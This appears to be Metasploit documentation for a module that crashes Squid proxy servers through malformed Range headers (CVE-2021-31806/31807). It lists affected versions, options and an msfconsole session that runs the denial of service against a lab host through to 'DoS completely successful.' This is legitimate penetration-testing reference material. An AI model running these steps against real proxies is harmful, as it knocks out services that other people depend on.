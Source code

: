 ## Vulnerable Application

This module exploits two vulnerabilities in the Squid Caching Proxy server and its
handling of cached pages and the `Range` HTTP header.

Due to the way Squid handles the HTTP request header `Range`, an assertion can be
caused due to a standard HTTP request. Once all of Squid's children workers have
asserted, a Denial of Service of the proxy is achieved.

Vulnerable versions of Squid include:
* 2.5.STABLE2-2.7.STABLE9.
* 3.0-4.1.4.
* 5.0.1-5.0.5.

Security bulletin from Squid: https://github.com/squid-cache/squid/security/advisories/GHSA-pxwq-f3qr-w2xf

## Verification Steps

1. Start msfconsole
2. use auxiliary/dos/http/squid_range_dos.rb`
3. Set `rhost
4. Set `rport`
5. run

## Options

### REQUEST_COUNT

REQUEST_COUNT is both the the number of HTTP requests which are sent to the server in
order to perform the actual Denial of Service (i.e. accepted requests by the server), 
and the number of requests that are sent to confirm that the Squid host is actually 
dead.

### CVE

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2021-31806`, but `CVE-2021-31807` can also be chosen.

## Scenarios

In this scenario the target server is running on the same host as Metasploit (192.168.159.128).
```
msf6 > use auxiliary/dos/http/squid_range_dos i
msf6 auxiliary(dos/http/squid_range_dos) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(dos/http/squid_range_dos) > show options 

Module options (auxiliary/dos/http/squid_range_dos):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CVE            CVE-2021-31806   yes       CVE to check/exploit (Accepted: CVE-2021-31806, CVE-2021-31807)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   REQUEST_COUNT  50               yes       The number of requests to be sent, as well as the number of re-tries to confirm a dead host
   RHOSTS         192.168.159.128  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          3128             yes       The target port (TCP)
   SRVHOST        192.168.159.128  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT        8080             yes       The local port to listen on.
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Perform Denial of Service Against The Target


msf6 auxiliary(dos/http/squid_range_dos) > run
[*] Running module against 192.168.159.128

[*] Sending 50 DoS requests to 192.168.159.128:3128
[*] Using URL: http://192.168.159.128:8080/Sv2fFH3gmGeN4VC
[*] Sent first request to 192.168.159.128:3128
[*] Sent DoS request 1 to 192.168.159.128:3128
[*] Sent DoS request 2 to 192.168.159.128:3128
[*] Sent DoS request 3 to 192.168.159.128:3128
[*] Sent DoS request 4 to 192.168.159.128:3128
[*] Sent DoS request 5 to 192.168.159.128:3128
[+] DoS completely successful.
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(dos/http/squid_range_dos) >
```

At this point, the target Squid server should be completely inaccessible: all children 
workers should have exited, and the main process should have also shut down.
